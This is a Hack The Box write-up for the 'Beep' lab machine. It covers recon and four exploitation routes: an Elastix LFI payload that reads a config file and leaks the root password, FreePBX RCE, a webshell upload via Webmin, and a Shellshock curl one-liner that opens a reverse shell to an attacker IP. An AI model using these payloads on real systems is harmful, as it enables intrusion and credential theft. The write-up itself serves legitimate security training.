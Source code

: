 ```yaml
---
title: Beep
date: 2023-02-18 09:45:47 +07:00
modified: 2023-02-18 09:45:47 +07:00
tags: [Shellshock, Beep, LFI, RCE, Hackthebox, Writeup]
description: Write Up for Hackthebox Machine Beep
---
```


![](https://photos.squarezero.dev/file/abir-images/Beep/logo.png)

Machine Name → **Beep**

Lab Link → [https://app.hackthebox.com/machines/Beep](https://app.hackthebox.com/machines/Beep)

Difficulty → [Easy]()


## Fixes
Due to this machine's age and the outdated TLS version, issues emerge.
Before we move on, let's solve a couple of them.

### Firefox

![](https://photos.squarezero.dev/file/abir-images/Beep/21.png)

### Curl & gobuster 
-k, --insecure           Allow insecure server connections




## **Recon**

I begin as usual with a Nmap scan.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Beep/1.png)

Multiple ports are open. 

|Ports|Service
|22| ssh OpenSSH 4.3 (protocol 2.0)
|25| smtp
|80| Apache httpd 2.2.3
|110| pop3
|111| rpcbind
|143| imap
|443| Apache httpd 2.2.3
|3306| mysql
|10000| http MiniServ 1.570 (Webmin httpd)

Next, I used [Gobuster]() to find interesting directories.

`gobuster dir -u https://beep.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k`

![](https://photos.squarezero.dev/file/abir-images/Beep/2.png)



## **Method 1 → LFI**

After visiting the website I have found a login page that use [Elastix]().

![](https://photos.squarezero.dev/file/abir-images/Beep/3.png)

I looked for possible exploits and found LFI vulnerability. 

![](https://photos.squarezero.dev/file/abir-images/Beep/4.png)

You can find the full explanation in [ExploitDB](https://www.exploit-db.com/exploits/37637)

Payload
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

After using the payload I found password for other portals

![](https://photos.squarezero.dev/file/abir-images/Beep/5.png)

Next I tried to use ssh with following credential to get access.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/6.png)

## **Method 2 → Remote Code Execution **

When visiting `/admin` , It asks for password. If cancled is pressed it took me to [FreePBX]() page. 

![](https://photos.squarezero.dev/file/abir-images/Beep/7.png)

After logging in we get admin dashboard access.

`admin:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/8.png)

After researching for a little bit I found this vulnerability in [ExploitDB](https://www.exploit-db.com/exploits/18650)

In order for the exploit to work it requires a valid extension.

We can use ![svmap]() to find SIP devices in the network and ![svwar]() to bruteforce for valid extension.

We can use `INVITE` option to reveal all valid extensions.

![](https://photos.squarezero.dev/file/abir-images/Beep/9.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/10.png)

Afternatively I found the extension in recordings dashboard as well.

![](https://photos.squarezero.dev/file/abir-images/Beep/11.png)

After finding the extension I found a shell in the system.

![](https://photos.squarezero.dev/file/abir-images/Beep/12.png)

## **Method 3 → FileUpload Code Execution**

In port 10000 I found [Webmin]() login page. I logged in with valid credential and found the admin dashboard.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/13.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/14.png)

There was already a commandshell option in the site. 

![](https://photos.squarezero.dev/file/abir-images/Beep/15.png)

There was also a file upload option in the website.

![](https://photos.squarezero.dev/file/abir-images/Beep/22.png)

I uploaded a webshell and after visiting the directory I can execute commands.

![](https://photos.squarezero.dev/file/abir-images/Beep/16.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/17.png)

Then I got a revershell using the webshell I spwaned. 

![](https://photos.squarezero.dev/file/abir-images/Beep/18.png)

## **Method 4 → ShellShock**

While exploring the website I found ![cgi-bin]](). 
This reminded me of [ShellShock]() vulnerability.

![](https://photos.squarezero.dev/file/abir-images/Beep/19.png)

I got a revershell using the vulnerability.

`curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.21/9999 0>&1;" https://beep.htb:10000`

![](https://photos.squarezero.dev/file/abir-images/Beep/20.png)

